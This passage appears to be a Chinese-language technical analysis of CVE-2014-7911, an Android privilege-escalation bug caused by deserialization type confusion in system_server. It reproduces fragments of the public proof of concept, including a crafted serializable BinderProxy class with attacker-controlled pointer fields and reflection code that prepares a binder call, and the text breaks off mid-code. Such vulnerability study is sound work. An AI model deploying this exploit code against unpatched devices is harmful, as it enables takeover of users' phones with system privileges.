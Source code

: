 # cve-2014-7911安卓提权漏洞分析

0x00 简介
=======

* * *

CVE-2014-7911是由Jann Horn发现的一个有关安卓的提权漏洞，该漏洞允许恶意应用从普通应用权限提权到system用户执行命令，漏洞信息与POC见(1]。漏洞的成因源于在安卓系统（<5.0）中，java.io.ObjectInputStream并未校验输入的java对象是否是实际可序列化的。攻击者因此可以构建一个不可序列化的java对象实例，恶意构建其成员变量，当该对象实例被ObjectInputStream反序列化时，将发生类型混淆，对象的Field被视为由本地代码处理的指针，使攻击者获得控制权。

0x02 漏洞分析
=========

* * *

在Jann Horm给出的漏洞信息与POC中(1]，向`system_server`传入的是不可序列化的`android.os.BinderProxy`对象实例，其成员变量在反序列化时发生类型混淆，由于`BinderProxy`的finalize方法包含本地代码，于是在本地代码执行时将成员变量强制转换为指针，注意到成员变量是攻击者可控的，也就意味着攻击者可以控制该指针，使其指向攻击者可控的地址空间，最终获得在`system_server（uid=1000）`中执行代码的权限。下面主要结合POC对漏洞进行详细分析，由于笔者之前对相关的Java序列化、`Android binder`跨进程通信和native代码都不太熟悉，主要根据参考文献进行翻译、整理和理解，不当之处，还请读者海涵。

**_Java层分析：_**

第一步，构建一可序列化的恶意对象

创建`AAdroid.os.BinderProxy`对象，并将其放入Bundle数据中

```
Bundle b = new Bundle();
AAdroid.os.BinderProxy evilProxy = new AAdroid.os.BinderProxy();
b.putSerializable("eatthis", evilProxy);

```

注意`AAdroid.os.BinderProxy`是可序列化的，其成员变量`mOrgue`就是随后用于改变程序执行流程的指针。随后该可序列化的`AAdroid.os.BinderProxy`将在传入`system_server`之间修改为不可序列化的`Android.os.BinderProxy`对象

```
public class BinderProxy implements Serializable {
    private static final long serialVersionUID = 0;
   //public long mObject = 0x1337beef;
   //public long mOrgue = 0x1337beef;
   //注意：此处要根据待测的Android版本号设置，在我们待测试的Android 4.4.4中，BinderProxy的这两个Field为private int，这样才能保证POC访问的地址为我们设置的值0x1337beef
   private int mObject = 0x1337beef;
   private int mOrgue = 0x1337beef;
}

```

第二步，准备传入`system_server`的数据

主要通过一系列java的反射机制，获得`android.os.IUserManager.Stub,andrioid.os.IUserManager.Stub.Proxy`的Class对象，最终获得跨进程调用`system_server`的IBinder接口——mRemote，以及调用`UserManager.setApplicationRestriction`函数的`code——TRANSACTION_setApplicationRestriction`，为与`system_server`的跨进程Binder通信作准备。

```
Class clIUserManager = Class.forName("android.os.IUserManager");
            Class[] umSubclasses = clIUserManager.getDeclaredClasses();
            System.out.println(umSubclasses.length+" inner classes found");
            Class clStub = null;
            for (Class c: umSubclasses) {
                //it's android.os.IUserManager.Stub
                System.out.println("inner class: "+c.getCanonicalName());
                if (c.getCanonicalName().equals("android.os.IUserManager.Stub")) {
                    clStub = c;
                }
            }

            Field fTRANSACTION_setApplicationRestrictions =
```